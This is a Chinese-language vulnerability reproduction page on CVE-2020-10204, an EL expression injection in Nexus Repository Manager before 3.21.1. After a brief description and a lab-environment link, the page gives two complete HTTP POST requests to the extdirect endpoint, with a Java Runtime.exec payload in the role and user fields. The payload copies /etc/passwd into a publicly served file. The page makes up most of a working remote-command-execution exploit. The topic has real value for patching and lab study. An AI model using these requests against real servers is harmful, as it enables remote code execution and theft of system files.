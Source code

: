 # Nexus Repository Manger extdirect 后台远程命令执行 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

## 漏洞影响

> [!NOTE]
>
> Nexus < 3.21.1

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204

## 漏洞复现

漏洞触发需要任意账户权限

![image-20210628181754513](http://wikioss.peiqi.tech/vuln/image-20210628181754513.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

该漏洞需要访问更新角色或创建角色接口，登录任意用户后修改 NXSESSIONID

发送请求包执行命令

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}
```

另一处漏洞点

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}
```





访问 vuln.html

![image-20210628191832105](http://wikioss.peiqi.tech/vuln/image-20210628191832105.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)